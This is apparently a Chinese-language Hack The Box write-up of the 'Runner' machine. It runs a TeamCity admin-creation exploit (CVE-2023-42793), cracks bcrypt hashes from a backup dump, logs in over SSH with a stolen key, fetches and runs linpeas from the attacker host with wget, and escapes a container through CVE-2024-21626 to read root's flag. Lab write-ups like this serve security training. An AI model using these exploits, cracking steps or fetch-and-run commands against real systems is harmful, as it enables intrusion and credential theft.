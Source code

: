 ###### tags: `Hack the box` `HTB` `Medium` `Linux`

# Runner
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.113.69 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.113.69:22
Open 10.129.113.69:80
Open 10.129.113.69:8000

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp   open  http        syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://runner.htb/
8000/tcp open  nagios-nsca syn-ack Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

掃子網
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://runner.htb/ -H "Host:FUZZ.runner.htb" -w /home/kali/SecLists/Discovery/DNS/shubs-subdomains.txt -fw 4

teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 653ms]
:: Progress: [484699/484699] :: Job [1/1] :: 143 req/sec :: Duration: [1:00:58] :: Errors: 0 ::
```

前往`http://teamcity.runner.htb`，有一個`Teamcity`的登入畫面，google可找到[CVE-2023-42793](https://github.com/Zyad-Elsayed/CVE-2023-42793)，先新增admin帳號再嘗試進行RCE
```
┌──(kali㉿kali)-[~/htb/CVE-2023-42793]
└─$ pip3 install -r requirements.txt

┌──(kali㉿kali)-[~/htb/CVE-2023-42793]
└─$ python3 exploit.py -u http://teamcity.runner.htb

=====================================================
*                                                   *
*              CVE-2023-42793                       *
*        TeamCity Admin Account Creation            *
*                                                   *
=====================================================

Token: eyJ0eXAiOiAiVENWMiJ9.UV9ZNnJCUEN4RVJJWEtlRFAyclBxM1gzbUk0.NDllMDdlYWYtNzk4MC00MDZkLThjZjYtNDQwMzEyODcwNDMy
Token saved to ./token
Successfully exploited!
URL: http://teamcity.runner.htb
Username: admin.1lbG
Password: Password@123
```

接著嘗試使用`rce.py`失敗，只好先登入進去看看有沒有東西，後來找到`Administration`的`start Backup`點點看

![Runner_1.png](picture/Runner_1.png)

接著點他可以下載下來看，最後在`TeamCity_Backup_20240823_062205/database_dump/users`裡面找到帳號的hash
```
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1724393504958, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, admin.1lbg, $2a$07$aPH3FaJt/064Dg7eiYYFtuuJf4F21CO5pr/IsR3VCeJym3hRmCZxC, , admin.1lbG@lol.omg, 1724393643967, BCRYPT
```

用`john`破可以破到`matthew`的密碼
```
┌──(kali㉿kali)-[~/htb]
└─$ john matthew --wordlist=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 128 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
piper123         (?) 
```

在`TeamCity_Backup_20240823_062205/config/projects/AllProjects/pluginData/ssh_keys/`可以得到`id_rsa`檔，但用`matthew`無法登入，查看網頁`http://teamcity.runner.htb/admin/admin.html?item=users`可以看到`admin`是`john`登登看

![Runner_2.png](picture/Runner_2.png)

發現可以成功登入，在`/home/john`可以得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ chmod 600 id_rsa 

┌──(kali㉿kali)-[~/htb]
└─$ ssh -i id_rsa john@10.129.217.18

john@runner:~$ cat user.txt
b101fe976e5215c5219742d493f22250
```

用linpeas
```
john@runner:/tmp$ wget 10.10.14.29/linpeas.sh
john@runner:/tmp$ chmod +x linpeas.sh
john@runner:/tmp$ ./linpeas.sh

╔══════════╣ Hostname, hosts and DNS
runner                                                                                                                                      
127.0.0.1 localhost
127.0.1.1 runner runner.htb teamcity.runner.htb portainer-administration.runner.htb

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0 trust-ad
search .

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices                                                                                                   
/dev/sda2 / ext4 defaults 0 1                                                                                                               
/dev/sda3 none swap sw 0 0
proc /proc proc remount,rw,hidepid=2,noexec,nosuid,nodev 0 0
```

將`portainer-administration.runner.htb`加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts 

10.129.41.58    runner.htb
10.129.41.58    teamcity.runner.htb
10.129.41.58    portainer-administration.runner.htb
```

並且可以用`matthew/piper123`登入

在前面的linpeas.sh有找到unmount去google之後可得到[CVE-2024-21626](https://nitroc.org/en/posts/cve-2024-21626-illustrated/?source=post_page-----103250a9acd3--------------------------------#how-docker-engine-calls-runc)

新增一個container

![Runner_3.png](picture/Runner_3.png)

選擇`teamcity:latest`作為image

![Runner_4.png](picture/Runner_4.png)

`Working Dir`加上`/proc/self/fd/8`然後選`Deploy`

![Runner_5.png](picture/Runner_5.png)

點進container選`console`

![Runner_6.png](picture/Runner_6.png)

選以`root` connect

![Runner_7.png](picture/Runner_7.png)

之後在`../../../root/root.txt`可以得到root.txt

![Runner_8.png](picture/Runner_8.png)


```
root@6189aac7fab5:.# cat ../../../root/root.txt
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
4f26c314682edcb6ac131629da13edf1
root@6189aac7fab5:.#
```
